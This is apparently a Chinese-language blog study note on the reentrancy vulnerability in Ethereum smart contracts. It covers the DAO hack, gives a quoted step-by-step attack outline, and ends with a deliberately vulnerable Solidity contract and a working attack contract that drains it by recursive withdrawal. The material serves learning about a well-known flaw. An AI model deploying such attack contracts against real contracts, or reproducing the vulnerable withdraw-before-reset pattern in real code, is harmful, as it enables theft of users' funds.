 ```yaml
---
title: '#DASP# Reentrancy (1)'
date: 2018-07-20 09:51:56
tags: [BlockChain, DASP]
categories: [区块链]
---
```


## 0x00 Info

从本篇开始学习智能合约漏洞，依据[DASP TOP10](https://www.dasp.co)。

<!-- more -->

## 0x01 DAO

**History**:  
* [The History of the DAO](https://blog.slock.it/the-history-of-the-dao-and-lessons-learned-d06740f8cfa5)

**WhitePaper**:  
* [WhitePaper](https://download.slock.it/public/DAO/WhitePaper.pdf)
* [白皮书](https://ethfans.org/posts/the-dao-whitepaper)

**OpenSource**:  
* [Github](https://github.com/slockit/dao)
* [etherscan](https://etherscan.io/address/0xbb9bc244d798123fde783fcc1c72d3bb8c189413#code)

### 概念理解

众筹合约，通过资金ETH换取DAO token，从而获得投票和发起议案的权利，按一定规则回馈给投资人投资项目的收益。
因此，The DAO特点：
* 本质是个VC，通过以太坊筹集的资金（ETH）锁定在智能合约中，通过**代码**主导！
* 出资ETH获取对应DAO代币，具有审查项目、投票表决和提出投资项目议案的权利
* 投资议案由全体代币持有人投票表决，一币一票，票数通过，投资项目可获得相应投资额。利用“众智”+出资额权重决定投资策略（取代传统行业投资经理）。
* 投资项目的收益按规则回馈股东。

### The DAO is attacked

[the-dao-the-hack-the-soft-fork-and-the-hard-fork](https://www.cryptocompare.com/coins/guides/the-dao-the-hack-the-soft-fork-and-the-hard-fork/)

```txt
+------------------------+  3.5M ETH lose   +-----------+  DoS vul   +-----------+
| antipattern (withdrew) | ---------------> | soft fork | ---------> | hard fork |
+------------------------+                  +-----------+            +-----------+
```

[security-alert-dos-vulnerability-in-the-soft-fork](https://blog.ethereum.org/2016/06/28/security-alert-dos-vulnerability-in-the-soft-fork/)

## 0x02 Reentrancy

### solidity基础知识

**合约调用**

1. message call
```js
bytes4 funcIdentifier = bytes4(keccak256("FuncName(paramType)"));
this.call(funcIdentifier, paramValue);
```

2. contract object
```js
Contract1 c = Contract1(AddressOfContract1);  
c.foo();
```

**限制**
例如send花费2300gas
递归调用栈最大1024层

**转币**

```js
1. <address>.transfer()    //失败抛出throw且回滚，2300gas
2. <address>.send()    //失败返回false，2300gas
3. <address>.gas().call.vale()()    //失败返回false，所有gas
```

**fallback**

[Solidity的fallback函数](http://me.tryblockchain.org/blockchain-solidity-fallback.html)

```js
contract SimpleFallback{
  function(){
    //fallback function
  }
}
```

两种情况会调用fallback：
1. 调用函数找不到时
2. 向合约发送ether时


### reentrancy & The DAO

DASP TOP10中reentrancy的描述：[dasp](https://www.dasp.co/#item-1)

reentrancy原型为[Race-To-Empty](https://vessenes.com/more-ethereum-attacks-race-to-empty-is-the-real-deal/)，其中就已经介绍了**重置资产**放在**转币**操作后的漏洞。

其中最典型的攻击案例为The DAO。对于The DAO的漏洞分析及利用exp & demo网上一大堆，这里就不ctrlcv了。
> 建议结合源码一起看，并使用本地（truffle+testrpc or geth testnet）或者在线的remix编译环境上手实践。

可以首先看看中文分析：
* [区块链安全 - DAO攻击事件解析](https://paper.seebug.org/544/)
* [以太坊智能合约安全入门](https://paper.seebug.org/601/)

推荐Phil Daian分析：
* [Analysis of the DAO exploit](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/)

> attack steps:
>   1. Propose a split and wait until the voting period expires. (DAO.sol, createProposal)
>   2. Execute the split. (DAO.sol, splitDAO)
>   3. Let the DAO send your new DAO its share of tokens. (splitDAO -> TokenCreation.sol, createTokenProxy)
>   4. Make sure the DAO tries to send you a reward before it updates your balance but after doing (3). (splitDAO -> withdrawRewardFor -> ManagedAccount.sol, payOut)
>   5. While the DAO is doing (4), have it run splitDAO again with the same parameters as in (2) (payOut -> _recipient.call.value -> _recipient())
>   6. The DAO will now send you more child tokens, and go to withdraw your reward before updating your balance. (DAO.sol, splitDAO)
>   7. Back to (5)!
>   8. Let the DAO update your balance. Because (7) goes back to (5), it never actually will :-).

其中最关键的就是第4步，splitDAO -> withdrawRewardFor -> payOut，其中payOut使用_recipient.call.value(_amount)()转币，而splitDAO函数中资产重置是放在withdrawRewardFor函数后，造成漏洞。

demo & exp：
* [SimpleDAO attack](http://blockchain.unica.it/projects/ethereum-survey/attacks.html#simpledao)
* [reentrancy exp](https://github.com/trailofbits/not-so-smart-contracts/tree/master/reentrancy)

其他合约中的reentrancy漏洞：[CityMayor](https://blog.citymayor.co/posts/how-someone-tried-to-exploit-a-flaw-in-our-smart-contract-and-steal-all-of-its-ether/)
> 特别注意此篇中的分析思路及工具[porosity](https://github.com/comaeio/porosity)/[etherscan](https://etherscan.io/)

---

**漏洞合约：**
```js
contract vulnerable_DAO{
    mapping(address=>uint) userBalances;
    
    function vulnerable_DAO() payable {
    }
    
    function getUserBalance(address user) constant returns(uint) {
        return userBalances[user];
    }
    
    function addToBalance() payable {
        userBalances[msg.sender] += msg.value;
    }
    
    function withdrawBalance() {
        uint amountToWithdraw = userBalances[msg.sender];
        if(msg.sender.call.value(amountToWithdraw)() ==false) {
            throw;
        }
        userBalances[msg.sender] = 0;
    }
    
    function getBalance() returns(uint) {
        return this.balance;
    }
}
```

**攻击利用合约：**
```js
contract Attack {
    address vulnerable_contract;
    uint attackCount;
    address public owner;
    
    function Attack() public{
        attackCount = 2;
        owner = msg.sender;
    }
    
    function() payable{
        while(attackCount>0) {
            attackCount--;
            require(vulnerable_contract.call(bytes4(keccak256("withdrawBalance()"))));
        }
    }
    
    function deposit(address _vulnerable_contract) public payable{
        vulnerable_contract = _vulnerable_contract;
        require(vulnerable_contract.call.value(msg.value)(bytes4(keccak256("addToBalance()"))));
    }
    
    function withdraw(){
        require(vulnerable_contract.call(bytes4(keccak256("withdrawBalance()"))));
    }
    
    function getBalance() returns(uint) {
        return this.balance;
    }
}
```